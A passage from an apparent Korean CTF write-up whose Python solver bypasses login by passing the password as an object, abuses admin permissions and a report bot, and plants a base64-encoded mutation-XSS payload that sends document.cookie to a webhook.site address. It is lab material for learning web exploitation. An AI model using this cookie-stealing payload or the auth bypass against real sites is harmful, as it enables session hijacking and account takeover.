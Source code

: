 PoC 페이로드를 가져와서 현재 챌린지 환경에 맞게 페이로드를 재설정한다음 base64 encoding을 진행해서 전달하면 최종적으로 챌린지를 해결할 수 있다.

## Solver

```python
import requests as req

url = 'http://localhost:3000'

admin = req.Session()
user = req.Session()
inspector = req.Session()

username = 'goldleo1'
password = 'af049f3jforgjju0'

res = admin.post(f'{url}/auth/login', json={
    'username': 'admin',
    'password': {'password': '1'}
})
admin.cookies.update({"jwt": res.json().get('token')})

res = inspector.post(f'{url}/auth/login', json={
    'username': 'inspector',
    'password': {'password': '1'}
})
inspector.cookies.update({"jwt": res.json().get('token')})

res = user.post(f'{url}/auth/register', json={
    'username': username,
    'password': password
})
res = user.post(f'{url}/auth/login', json={
    'username': username,
    'password': password
})
user.cookies.update({"jwt": res.json().get('token')})

res = admin.post(f'{url}/admin/user/perm', json={
    'username': username,
    'value': True
})

res = user.post(f'{url}/post/write', json={
    'title': 'dummy',
    'content': '<form action="//localhost:3000/admin/test"><input type="text" name="content" value="PG1hdGg+PGN1c3RvbS10ZXN0PjxtaT48bGk+PHRhYmxlPjxjdXN0b20tdGVzdD48bGk+PC9saT48L2N1c3RvbS10ZXN0PjxhPg0KICAgICAgPHN0eWxlPg0KICAgICAgICA8ISBcJHsNCiAgICAgIDwvc3R5bGU+DQogICAgICB9DQogICAgICA8Y3VzdG9tLWIgaWQ9Ij48aW1nIHNyYyBvbmVycm9yPSdsb2NhdGlvbi5ocmVmPWBodHRwczovL2EzOTMyNzVlLWExOTctNDk3Ny05ZWIzLThhMGNkODAzYWFiOC53ZWJob29rLnNpdGUvP3E9YC5jb25jYXQoZG9jdW1lbnQuY29va2llKTsnPiI+aG1tLi4uPC9jdXN0b20tYj4NCiAgICA8L2E+PC90YWJsZT48L2xpPjwvbWk+PC9jdXN0b20tdGVzdD48L21hdGg+"><button id="delete" class="slider">a</button></form>' ,
    'theme': '../switch'
})
post_id = res.json().get('post')

res = inspector.get(f'{url}/report/{post_id}')
	print(res.text)
```
